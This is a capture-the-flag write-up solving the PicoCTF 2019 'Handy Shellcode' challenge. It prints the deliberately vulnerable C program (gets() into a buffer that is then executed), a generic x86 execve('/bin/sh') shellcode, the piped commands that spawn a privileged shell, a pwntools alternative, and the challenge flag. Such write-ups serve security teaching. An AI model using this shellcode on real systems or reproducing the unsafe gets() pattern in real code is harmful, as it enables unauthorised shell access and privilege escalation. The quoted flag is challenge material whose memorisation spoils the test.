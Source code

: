# PicoCTF19 Handy Shellcode

## Challenge

This [program](https://2019shell1.picoctf.com/static/55d1e7f761111a3cf6eec259e5dc44f8/vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode on the shell server. [Source](https://2019shell1.picoctf.com/static/55d1e7f761111a3cf6eec259e5dc44f8/vuln.c).

## Hints

You might be able to find some good shellcode online.

## Solution

Let's view that directory:

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ ls -al
total 732
drwxr-xr-x   2 root       root                4096 Sep 28 21:53 .
drwxr-x--x 684 root       root               69632 Oct 10 18:02 ..
-r--r-----   1 hacksports handy-shellcode_5     39 Sep 28 21:53 flag.txt
-rwxr-sr-x   1 hacksports handy-shellcode_5 661832 Sep 28 21:53 vuln
-rw-rw-r--   1 hacksports hacksports           624 Sep 28 21:53 vuln.c
```
As my user is currently `samson` and I am not in that handy-shellcode_5 group, I cannot `cat` the file `flag.txt`. Let's take a look at the source code.

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 148
#define FLAGSIZE 128

void vuln(char *buf){
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){
  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  char buf[BUFSIZE];
  puts("Enter your shellcode:");
  vuln(buf);
  puts("Thanks! Executing now...");
  ((void (*)())buf)();
  puts("Finishing Executing Shellcode. Exiting now...");
  return 0;
}
```

It seems like it's almost prompting us to enter shellcode and execute it. More precisely, it takes in our input and echos it out with the `gets()` and `puts()` function calls.

Then we have this line here:
```
  ((void (*)())buf)();
```
This takes `buf`, casts it to the void function pointer which returns nothing and then runs that function. So it'll execute whatever is at the address for `buf`.

Let's test our assumptions....

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ ./vuln
Enter your shellcode:
A    
A
Thanks! Executing now...
Segmentation fault (core dumped)
```

So what is shellcode? Basically it's raw assembly code to be executed.

So let's go to a handy website full of these shellcodes: [http://shell-storm.org/shellcode/](http://shell-storm.org/shellcode/)

But before we decide which shellcode to use, we need to know our end goal. We want to drop into a shell that will let us `cat` or `print` the file `flag.txt`.

Let's start with dropping into a shell, is there a shellcode for `/bin/sh`.... Yes.

---

Let's use this one: [http://shell-storm.org/shellcode/files/shellcode-811.php](http://shell-storm.org/shellcode/files/shellcode-811.php)

```
/*
Title:	Linux x86 execve("/bin/sh") - 28 bytes
Author:	Jean Pascal Pereira <pereira@secbiz.de>
Web:	http://0xffe4.org


Disassembly of section .text:

08048060 <_start>:
 8048060: 31 c0                 xor    %eax,%eax
 8048062: 50                    push   %eax
 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 804806d: 89 e3                 mov    %esp,%ebx
 804806f: 89 c1                 mov    %eax,%ecx
 8048071: 89 c2                 mov    %eax,%edx
 8048073: b0 0b                 mov    $0xb,%al
 8048075: cd 80                 int    $0x80
 8048077: 31 c0                 xor    %eax,%eax
 8048079: 40                    inc    %eax
 804807a: cd 80                 int    $0x80



*/

#include <stdio.h>

char shellcode[] = "\x31\xc0\x50\x68\x2f\x2f\x73"
                   "\x68\x68\x2f\x62\x69\x6e\x89"
                   "\xe3\x89\xc1\x89\xc2\xb0\x0b"
                   "\xcd\x80\x31\xc0\x40\xcd\x80";

int main()
{
  fprintf(stdout,"Lenght: %d\n",strlen(shellcode));
  (*(void  (*)()) shellcode)();
}

```

But let's get that shellcode onto one line:

`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`

Let's try it?

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ ./vuln 
Enter your shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80
Thanks! Executing now...
Segmentation fault (core dumped)
```

Wait that's not how we enter shellcode. We need the shell to interpret the `\x` as bytes not strings.

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'" | ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                 ̀1�@̀
Thanks! Executing now...
```

Awesome it worked but it won't hold a shell for us, so let's use `cat`. To recap, if you `cat file.txt`, it'll just print out the contents of the file. However, if you just type `cat`, it will echo back whatever input you give it until you quit the program. Let's try it out.

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ (python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'"; cat) | ./vuln
Enter your shellcode:
1�Ph//shh/bin����°
                 ̀1�@̀
Thanks! Executing now...
id
uid=30646(samson) gid=8874(handy-shellcode_5) groups=8874(handy-shellcode_5),1002(competitors),30647(samson)
ls -al      
total 732
drwxr-xr-x   2 root       root                4096 Sep 28 21:53 .
drwxr-x--x 684 root       root               69632 Oct 10 18:02 ..
-r--r-----   1 hacksports handy-shellcode_5     39 Sep 28 21:53 flag.txt
-rwxr-sr-x   1 hacksports handy-shellcode_5 661832 Sep 28 21:53 vuln
-rw-rw-r--   1 hacksports hacksports           624 Sep 28 21:53 vuln.c
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}
```

## Flag

`picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}`

## Alternative solution

The PicoCTF Shell comes with Python and Pwntools preinstalled so we could have leveraged this as well.

```bash
samson@pico-2019-shell1:/problems/handy-shellcode$ (python -c "import pwn; print(pwn.asm(pwn.shellcraft.linux.sh()))"; cat) | ./vuln
Enter your shellcode:
jhh///sh/bin��h�4$ri1�QjY�Q��1�j
                                X̀
Thanks! Executing now...
cat flag.txt
picoCTF{h4ndY_d4ndY_sh311c0d3_0b440487}
```